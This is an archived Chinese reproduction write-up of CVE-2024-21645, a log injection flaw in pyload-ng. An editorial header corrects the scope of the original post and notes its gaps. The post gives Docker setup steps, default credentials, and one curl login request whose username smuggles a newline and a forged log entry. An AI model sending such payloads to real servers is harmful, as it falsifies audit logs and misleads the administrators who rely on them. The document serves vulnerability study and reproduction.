








# [漏洞复现]CVE-2024-21645

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：pyload-ng
- 文献类型：日志注入复现
- 版本、权限及部署边界：文称<0.5.0b3.dev76；登录失败用户名含换行，攻击未认证；管理员登录仅观察日志
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 明确区分攻击不需登录与观察日志需登录，非鉴权绕过/代码注入；以日志伪造影响描述
2. docker无tag拉latest与受影响版本条件冲突，需固定易受影响digest；默认凭据不适合泛化生产
3. 结尾开源自行修复忽略前文修复界线，应补dev76/官方GHSAcommit而非让用户自行补造
4. curl会写伪造日志，非只读检查；图片未视检，无原始响应/日志摘录，未给source引用

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-01-14 00:02  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
****  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
pyload日志注入漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
pyload-ng < 0.5.0b3.dev76版本  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
pyload是一个  
用纯 Python 编写的免费开源下载管理器。有WEB页面，在页面上有个查看日志的功能，存在  
日志注入漏洞。此漏洞允许任何未经身份验证的参与者将任意消息注入到pyload。  
pyload尝试使用错误凭据登录时将生成日志条目。该条目将采用 的形式Login failed for user 'USERNAME'。但是，当提供包含换行符的用户名时，该换行符不会正确转义。换行符也是日志条目之间的分隔符。这允许攻击者将新的日志条目注入日志文件中。  
  
  
04  
  
—  
  
靶场搭建  
  
  
  
方便期间直接使用docker搭建靶场  
```
docker search pyload
```  
  
  
```
docker pull linuxserver/pyload-ng
```  
  
  
  
  
  
启动容器  
```
docker run -p 8000:8000 linuxserver/pyload-ng
```  
  
  
  
  
访问页面  
  
http://192.168.40.130:8000/  
  
  
  
至此靶场搭建完成  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
先登录进去，然后查看日志  
  
pyload/pyload  
  
  
  
  
任何未经身份验证的攻击者现在都可以发出以下请求来注入任意日志。我们在另一台kali虚拟机上执行如下命令  
```
curl 'http://192.168.40.130:8000/login?next=http://192.168.40.130:8000/' -X POST -H 'Content-Type: application/x-www-form-urlencoded' --data-raw $'do=login&username=wrong\'%0a[2024-01-05 02:49:19]  HACKER               PinkDraconian  THIS ENTRY HAS BEEN INJECTED&password=wrong&submit=Login'
```  
  
  
  
  
再次查看日志，我们会看到该条目已成功注入。  
  
  
  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
  
漏洞实用性不强，懒得写POC了。  
  
  
07  
  
—  
  
修复建议  
  
  
开源项目，自行修复。  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
